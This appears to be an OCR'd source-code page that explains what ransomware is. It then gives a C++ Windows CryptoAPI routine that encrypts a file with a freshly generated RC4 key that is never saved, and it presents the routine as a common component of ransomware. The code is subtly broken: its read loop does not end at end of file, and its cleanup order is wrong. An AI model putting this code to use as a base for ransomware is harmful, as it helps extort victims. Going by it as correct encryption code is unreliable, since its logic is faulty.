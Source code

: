 # Ransomware:

Ransomware is a form of malware that encrypts the victim’s files. The perpetrator
then demands a ransom from the victim in exchange for restoring access to the data. The
motive for ransomware attacks is typically monetary, and unlike other types of attacks, the
victim is typically informed of the exploit and given instructions on how to recover. To conceal
their identity, attackers frequently demand payment in a virtual currency, such as Bitcoin.
Ransomware attacks can be devastating, as they can result in the loss of sensitive or proprietary
data, disruption of regular operations, monetary losses incurred to restore systems and files,
and potential reputational damage to an organization. Real ransomware creation is unlawful 


Nonetheless, the following is a simplified example of file encryption using the Windows
API, which is a common component of ransomware


```cpp

#include <windows.h>
#include <wincrypt.h>

#pragma comment(lib, "crypt32.lib")

void encrypt_file(LPCWSTR filename) {
  // buffer to hold the plaintext and the ciphertext
  BYTE buffer[1024];
  DWORD bytesRead, bytesWritten;

  // open the original file, and create the new file
  HANDLE originalFile = CreateFile(filename, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  HANDLE newFile = CreateFile(L"encrypted", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

  // Get a handle to the CSP
  HCRYPTPROV hProv;
  CryptAcquireContext(&hProv, NULL, NULL, PROV_RSA_FULL, CRYPT_VERIFYCONTEXT);

  // Generate the session key
  HCRYPTKEY hKey;
  CryptGenKey(hProv, CALG_RC4, CRYPT_EXPORTABLE, &hKey);

  // Read the plaintext file, encrypt the buffer, then write to the new file
  while(ReadFile(originalFile, buffer, sizeof(buffer), &bytesRead, NULL)) {
    CryptEncrypt(hKey, 0, bytesRead < sizeof(buffer), 0, buffer, &bytesRead, sizeof(buffer));
    WriteFile(newFile, buffer, bytesRead, &bytesWritten, NULL);
  }

  // Clean up
  CryptReleaseContext(hProv, 0);
  CryptDestroyKey(hKey);
  CloseHandle(originalFile);
  CloseHandle(newFile);
}

int main() {
  encrypt_file(L"test.txt");
  return 0;
}
```



This is a simple example that demonstrates file encryption, which is a part of what ransomware
does. However, it does not include other elements such as user notifications, ransom demands,
key management (importantly, key destruction), network spreading, or any kind of persistence
or anti-detection mechanisms. Also, it’s not using a secure encryption mode